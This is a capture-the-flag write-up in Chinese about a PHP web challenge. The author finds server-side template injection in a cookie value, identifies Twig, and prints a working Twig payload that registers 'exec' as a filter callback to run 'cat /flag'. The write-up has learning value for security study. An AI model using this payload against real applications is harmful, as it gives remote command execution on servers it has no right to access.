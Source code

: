 ![](<./img/Pasted image 20221120211116.png>)

---
首页长这样

![](<./img/Pasted image 20221120211132.png>)

等等，题目不是stable吗，这里咋变成subtle了QwQ

![](<./img/Pasted image 20221120211200.png>)

```php
/flag.php
```
![](<./img/Pasted image 20221120211327.png>)

输入`username`上传之后是这样

![](<./img/Pasted image 20221120211704.png>)

POST的内容是`username=CrackTC&submit=submit`

同时设置`cookie`

![](<./img/Pasted image 20221120211901.png>)

点击`Logout`后实际上是`GET /logout.php`

---
尝试从`cookie`值入手，看看是不是`SSTI`之类的
```php
user={{1-2}}
```
![](<./img/Pasted image 20221120212926.png>)

芜湖
```twig
user={{phpinfo()}}
```
![](<./img/Pasted image 20221120213341.png>)

括号被过滤掉了好像

可恶，之后居然就没思路了呜呜呜

搜了下网上有个decision tree长这样

![](<./img/Pasted image 20221120214710.png>)

先不管咋注入，确定模板引擎先
```twig
user={{7*'7'}}
```
![](<./img/Pasted image 20221120214943.png>)

这里回显49，说明是`Twig`
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
![](<./img/Pasted image 20221120220302.png>)

这个看字面意思好像是先注册一个回调，当获取一个未定义的过滤器时候调用这个回调，并向它传递试图获取的过滤器名字，所以最终就变成了向`exec`传递`cat /flag`，也就获取到了`flag`（推测之前回显`What do you want to do?!`是我没搞懂语法整出报错了，并不是括号被过滤了QAQ）

#Web #HTTP #twig #SSTI #RCE #PHP #Header 